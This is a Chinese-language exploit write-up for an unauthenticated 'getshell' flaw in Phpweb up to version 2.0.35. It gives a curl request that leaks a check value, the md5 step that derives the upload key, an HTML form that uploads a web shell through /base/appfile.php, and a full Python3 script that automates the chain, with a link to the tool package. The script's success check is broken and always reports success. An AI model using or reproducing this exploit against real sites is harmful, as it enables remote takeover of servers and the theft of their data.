


# Phpweb 前台 getshell

> 原文：[http://book.iwonder.run/0day/Phpweb/Phpweb 前台 getshell.html](http://book.iwonder.run/0day/Phpweb/Phpweb 前台 getshell.html)

## 一、漏洞简介

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php /base/appborder.php

## 二、漏洞影响

Phpweb<=2.0.35

## 三、复现过程

### 1.首先要获取加密前的 Md5 值，用于文件较检,通过 Post 提交数据来获取!

```
curl "http://website/base/post.php" -H "act=appcode" 
```



```
ac34c64cdb405eff881efc5476a64761 ##这个就是初始值 
```

### 2.获取加密后得 md5 值

然后将初始值 md5 加密(ac34c64cdb405eff881efc5476a64761 + “a”)

得到加密后的 MD5 值!

```
e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的 md5 值(终值)! 
```

3.Getsehll exp:

```
<html>
<body>
<form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="text" name="t" value="a" />
<input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
<input type="text" name="act" value="upload" />
<input type="text" name="r_size" value="14" />
<br />
<input type="submit" name="submit" value="getshell" />
</form>
</body>
</html> 
```



然后…Getshell!


当出现 OK 两个大字时,说明你成功了!!!

上传的 shell 路径是

[http://www.0-sec.org/effect/source/bg/shell 名称.php](http://www.0-sec.org/effect/source/bg/shell 名称.php)


### 工具编写

Python exp[Python3]:

```
# -*- coding: UTF-8 -*- #
import os
import requests
import hashlib

bdlj = os.getcwd()
headers = open(bdlj+"\headers.txt",'r')
headerss = headers.read()
print('\b')

ur = input("请输入目标网址:")
requrl =  ur + '/base/post.php'
reqdata = {"act":"appcode"}
r = requests.post(requrl,data=reqdata)
cz=r.text[2:34]
print ('初值:' + cz)

cz=r.text[2:34]+"a"
m = hashlib.md5()
b = cz.encode(encoding='utf-8')
m.update(b)
zz = m.hexdigest()
print ('终值:' + zz)

infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
for line in infile:
      outfile.write(line.replace('156as1f56safasfasfa', zz))
infile.close()
outfile.close()
datas = open(bdlj+"\datah.txt",'r')
datass = datas.read()

gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
gs.encoding = 'utf-8'
print (gs.text)

if {gs.text == "OK"}:
    print ("Getshell 成功! Shell:" + ur + "/effect/source/bg/mstir.php")
else:
    print ("Getsehll 失败!") 
```

整包下载地址:[https://github.com/ianxtianxt/Phpweb-Getshell-py](https://github.com/ianxtianxt/Phpweb-Getshell-py)

使用请下载整包,否则会缺少协议头和 data 数据!

使用教程:


## 参考链接

> [https://m4tir.github.io/Phpweb-Reception-Getshell](https://m4tir.github.io/Phpweb-Reception-Getshell)

